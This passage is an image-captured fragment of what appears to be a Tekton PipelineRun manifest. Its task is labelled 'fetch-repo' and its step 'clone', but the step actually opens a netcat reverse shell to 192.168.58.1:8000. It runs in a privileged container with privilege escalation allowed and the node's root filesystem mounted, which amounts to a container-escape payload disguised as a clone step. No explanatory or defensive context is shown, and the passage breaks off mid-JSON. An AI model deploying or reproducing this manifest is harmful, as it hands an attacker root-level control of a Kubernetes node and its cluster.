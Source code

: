 ```
                {
                    "name": "fetch-repo",
                    "taskSpec": {
                        "metadata": {},
                        "steps": [
                            {
                                "computeResources": {},
                                "image": "busybox:latest",
                                "name": "clone",
                                "script": "#!/usr/bin/env sh\nbusybox nc 192.168.58.1 8000 -e /bin/sh\n",
                                "volumeMounts": [
                                    {
                                        "name": "noderoot",
                                        "mountPath": "/var/noderoot"
                                    }
                                ],
                                "securityContext": {
                                    "allowPrivilegeEscalation": true,
                                    "privileged":true
                                }
                            }
                        ],
                        "workspaces": [
                            {
                                "name": "repo"
                            }
                        ]
                    },
                    "workspaces": [
                        {
                            "name": "repo",
                            "workspace": "repo"
                        }
                    ]
                }
            ]
        },
        "taskRunTemplate": {
            "podTemplate": {
                "volumes": [
                    {
                        "name": "noderoot",
                        "hostPath": {
                            "path": "/"
                        }
                    }
                ]
            },
            "serviceAccountName": "default"
        },
        "timeouts": {
            "pipeline": "1h0m0s"
        },
        "workspaces": [
            {
                "name": "repo",
                "volumeClaimTemplate": {
                    "metadata": {
                        "creationTimestamp": null
                    },
                    "spec": {
                        "accessModes": [
```